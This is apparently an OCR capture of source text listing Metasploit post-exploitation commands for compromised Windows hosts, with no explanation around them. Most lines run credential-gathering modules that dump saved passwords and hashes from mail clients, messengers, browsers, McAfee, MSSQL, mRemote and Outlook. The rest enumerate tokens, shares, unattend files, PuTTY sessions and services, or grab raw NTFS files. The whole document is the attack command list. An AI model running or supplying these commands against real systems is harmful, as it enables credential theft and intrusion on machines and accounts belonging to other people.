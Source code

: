 run post/windows/gather/credentials/imail

run post/windows/gather/enum_muicache

run post/windows/gather/credentials/imvu

run post/windows/gather/enum_onedrive

run post/windows/gather/credentials/incredimail

run post/windows/gather/credentials/kakaotalk

run post/windows/gather/credentials/kmeleon

run post/windows/gather/enum_prefetch

run post/windows/gather/credentials/line

run post/windows/gather/enum_proxy

run post/windows/gather/credentials/maxthon

run post/windows/gather/enum_putty_saved_sessions

run post/windows/gather/credentials/mcafee_vse_hashdump

run post/windows/gather/enum_services

run post/windows/gather/credentials/mdaemon_cred_collector

run post/windows/gather/enum_shares

run post/windows/gather/credentials/meebo

run post/windows/gather/enum_snmp

run post/windows/gather/credentials/miranda

run post/windows/gather/enum_termserv

run post/windows/gather/credentials/mremote

run post/windows/gather/enum_tokens

run post/windows/gather/credentials/mssql_local_hashdump

run post/windows/gather/enum_tomcat

run post/windows/gather/credentials/nimbuzz

run post/windows/gather/enum_trusted_locations

run post/windows/gather/credentials/opera

run post/windows/gather/enum_unattend

run post/windows/gather/credentials/operamail

run post/windows/gather/exchange

run post/windows/gather/credentials/outlook

run post/windows/gather/file_from_raw_ntfs

run post/windows/gather/credentials/postbox

